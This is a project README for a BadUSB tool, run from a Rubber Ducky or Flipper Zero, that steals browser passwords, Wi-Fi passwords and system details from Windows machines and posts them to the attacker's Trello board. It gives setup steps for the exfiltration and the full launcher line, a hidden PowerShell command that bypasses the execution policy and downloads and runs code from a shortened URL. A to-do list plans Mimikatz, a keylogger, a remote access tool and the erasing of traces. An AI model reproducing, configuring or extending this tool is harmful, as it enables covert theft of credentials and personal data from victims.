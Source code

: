 # W1ns1d3r_Tr3ll0 BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.1]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)

```
______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888
                 "Y88P"           888                                                           
______________________________________________________________________________________________
```

- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything on your Trello webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_f4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything on your Trello webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**

- **Setup Guide :**
  - **1 - Creating account and setup informations**
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello

    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards

    - 1.3 - Create a board

    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.

    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"

    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1

  - **2 - Once you have the idlist, the API key and the token, you need to modify the "launcher" [.txt] file**
    - 2.1 - You need to go to the script and look for a line like this : ```"STRING powershell -w h -NoP -Ep Bypass $idList='';$key='';$token='';irm https://shorturl.at/gpvF5 | iex"```
    - 2.2 - Then, you need to add those informations : 
      - 2.2.1 - ```$idList=''``` your id list, that you've got from the *idlist script* **Step 1.6**
      - 2.2.2 - ```$key=''``` your API Key **Step 1.4.3**
      - 2.2.3 - ```$token=''``` your Token **Step 1.4.5**

    - **3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero**
      - Instructions of 

    - **4 - Enjoy !**

# Releases

- **Version [1.0]** - *10/02/2024*
- **Version [1.1]** - *12/02/2024*


# To do : 

- Add a folder with each function and explain how they work.
- Create a version that supports admin rights and add : 
  - Add the trash folder erasing
  - Add the powershell history erasing
  - Add Mimikatz password recovery
  - Add keylogger
  - Add a RAT ( Remote Access Toolkit ) installation and configuration
